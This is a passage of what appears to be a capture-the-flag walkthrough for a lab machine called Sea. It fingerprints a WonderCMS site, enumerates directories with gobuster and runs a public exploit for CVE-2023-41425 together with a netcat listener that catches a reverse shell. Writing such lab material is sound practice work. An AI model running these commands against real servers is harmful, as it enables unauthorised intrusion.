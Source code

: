   * ![burp-suite results](image-4.png)
* in the style sheet file, you should look for something unique like -webkit-animation: parallax_fg ... and search github for this
* by searching github we will find that the content management system used is called WonderCMS which is a simple CMS designed for building websites without needing a full database like MySQL
* another ways to find the server also by:
2. since we find the .css file in /themes/bike folder, we can enumerate it also using gobuster:
   > gobuster dir -u http://sea.htb/themes/bike/ -w wordlist
* you will see a file called Licence in which you will the copyright with the user name turboblack
* you can go to his github accont and the repo called turboblack in which you will  find the WonderCMS used
3. also if you used the quickhit.txt wordlist you will see the README.md file which will contain the CMS.

## 3.Discovering a public POC for the XSS Attack
* now our first step is to always look for ready made exploits on internet
* go for your browser and write: WonderCMS exploit in github you will find ready made exploit **exploit.py**
* excute it to know what does it take.
* you should find **CVE-2023-41425**
* then you will find that it attacks an endpoint called login/URL so you need to run the following command:
  > python3 exploit.py http://sea.htb/loginURL your_ip your_port
* then in another terminal open a lister using nc
  > nc -lvnp your_port
* you will find a file called xss.js
* grep the github word inside it using this command: 
  > grep github xss.js